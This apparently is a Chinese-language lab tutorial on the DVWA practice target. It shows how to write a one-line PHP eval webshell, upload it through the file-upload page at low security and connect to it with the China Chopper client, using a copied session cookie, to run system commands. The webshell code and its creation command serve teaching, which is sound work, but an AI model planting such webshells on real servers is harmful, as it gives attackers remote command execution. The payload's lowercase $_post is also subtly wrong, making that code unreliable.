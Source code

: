 
# 一、菜刀
本文以dvwa靶场做示范。  

## 0x00_目标  
菜刀请自行百度或GitHub搜索获取。  
学完本文仅需掌握：  
1. 使用菜刀连接需要身份认证的木马;  
2. 理解Cookie的作用；  

## 1.菜刀使用方法

##### a. 进入靶场  

进入文件上传靶场，并将难度设置为low：  
账户信息：admin/password  

![Alt](picture/0_1.jpg)  

##### b. 编辑木马  

百度“一句话木马”：  

![Alt](picture/0_2.jpg)  

并找到可执行木马的源码，对于dvwa靶场则为PHP木马：  

![Alt](picture/0_3.jpg)  

复制代码，并制作木马文件：  

> 一句话木马  
> <?php @eval($_post['attack']);?>  

执行指令[^1]  

> echo '<?php @eval($_post["attack"]);?>' > tmp.php  

![Alt](picture/0_4.jpg)  

##### c. 上传木马  

进入文件上传界面，上传制作好的木马：  
点击选择文件  

![Alt](picture/0_5.jpg)  

选中制作的木马文件tmp.php  

![Alt](picture/0_6.jpg)  

点击upload上传  

![Alt](picture/0_7.jpg)  

返回结果如下  

![Alt](picture/0_8.jpg)  

证明文件上传成功  
尝试访问上传成功的文件  
http://192.168.56.101/dvwa/hackable/uploads/tmp.php[^2]  

![Alt](picture/0_9.jpg)  

确定未返回404，说明文件可访问。  

##### d. 菜刀连接设置  

d1. 打开菜刀工具  

![Alt](picture/0_10.jpg)  

d2.添加远程连接任务  
右键添加任务  

![Alt](picture/0_11.jpg)  

地址填入木马地址，密码为attack[^3]

![Alt](picture/0_12.jpg)  

点击编辑确定，可以看见主界面如下  

![Alt](picture/0_13.jpg)  

d3. 任务添加cookie  
在浏览器中按F12，进入调试界面，并进入Network  

![Alt](picture/0_14.jpg)  

刷新页面，在请求报文头中获取cookie值  

![Alt](picture/0_15.jpg)  

当前cookie值为：  

> Cookie: security=low; PHPSESSID=31ei3lo48uu5v6i2u85ru1t3v0  

回到菜刀中，选中任务右键，然后选择设置  

![Alt](picture/0_16.jpg)  

进入设置界面后，点击请求头，并将刚获取的cookie值写入  

![Alt](picture/0_17.jpg)  

点击确定，出现如下提示，则设置成功，然后退出设置窗口  

![Alt](picture/0_18.jpg)  

##### e. 连接木马

双击任务即可，返回如下则证明远程连接成功  

![Alt](picture/0_19.jpg)  

也可以在列表中选中任务右键，并选择“模拟终端”  

![Alt](picture/0_20.jpg)  

在模拟终端中可以尝试执行系统命令，验证远控成功  

![Alt](picture/0_21.jpg)  

## 2.Cookie的作用

在上一节中，菜刀能连接到木马的关键操作是添加cookie。在系统做了良好权限控制的场景中，如果没有添加身份认证信息，就不能访问到远程连接文件，其中cookie就是用户身份认证的一种方式。  
如果上传了木马后，直接用工具连接出现了连接失败的情况，则需要考虑添加请求头信息，其中最为关键的是：cookie、session、token，根据不同的情况，也可能需要添加其他的请求头信息。  
更多关于cookie、session、token的知识，请自行百度[^4]。


-------------

### 推广：  

欢迎加入本人的QQ技术讨论群（CV技术讨论群）：736342355  
**CV，尽力做最专业的Ctrl+C、Ctrl+V的姿势搬运工。**


[^1]: 直接创建一个PHP文件，并将代码写入PHP文件中保存即可  

[^2]: 上图返回结果中的 `..\` 表示返回上级目录，所以木马文件则删除最低两级目录，然后拼接hackable/uploads/tmp.php  

[^3]: 上传木马中设置的POST参数为attack，所以此处添加密码为attack，具体原因后期博文会具体讲解  

[^4]: 参考博文:<https://www.cnblogs.com/moyand/p/9047978.html>
